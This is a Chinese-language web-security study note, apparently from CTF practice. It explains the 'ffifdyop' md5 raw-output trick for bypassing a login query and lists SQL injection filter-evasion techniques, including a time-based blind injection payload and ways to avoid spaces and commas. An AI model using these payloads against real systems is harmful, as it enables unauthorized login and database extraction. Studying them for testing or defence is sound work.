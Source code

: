 **md5($pass,true)**

`ffifdyop` 这个字符串被 md5 哈希了之后会变成 `276f722736c95d99e921722cf9ed621c`，Mysql 刚好又会把 hex 转成 ascii这个字符串，前几位刚好是` ' or '6`，构造成万能密码

```
content: 129581926211651571912466741651878684928
hex: 06da5430449f8f6f23dfc1276f722738
raw: \x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8
string: T0Do#'or'8
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
```

`SELECT * FROM admin WHERE username = 'admin' and password = ''or'6xc9]x99'`

由于**and**运算符优先级比**or**高，所以前面的：`username = 'admin' and password = ''`会先执行，然后将执行结果与后面的`'6xc9]x99'`进行or运算。在布尔运算中，除了`0、'0'、false、null，`其余结果都为真。所以整个SQL语句的where条件判断部分为真
![](https://img-blog.csdnimg.cn/20201003144438903.png)

[【技术分享】MySQL False注入及技巧总结](https://www.anquanke.com/post/id/86021)

#### 绕过技巧
反引号来包含含有特殊字符的表名、列名
**绕过空格**
```
/**/、括号、+、%20、%09、%0a、%0b、%0c、%0d、%a0、%00 tab
```
 `%a0`在特定字符集才能利用
 
括号没有被过滤，可以用括号绕过:
```sql
1'and(sleep(ascii(mid(database()from(1)for(1)))=109))#
select(group_concat(table_name))from(information_schema.tables)where(tabel_schema=database());
```

**绕过逗号**
使用from
```sql
select substr(database() from 1 for 1)#
```

使用join
```sql
union select 1,2
#等价于
union select * from (select 1)a join (select 2)b
```

对于`limit`可以使用`offset`来绕过
```sql
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0
```
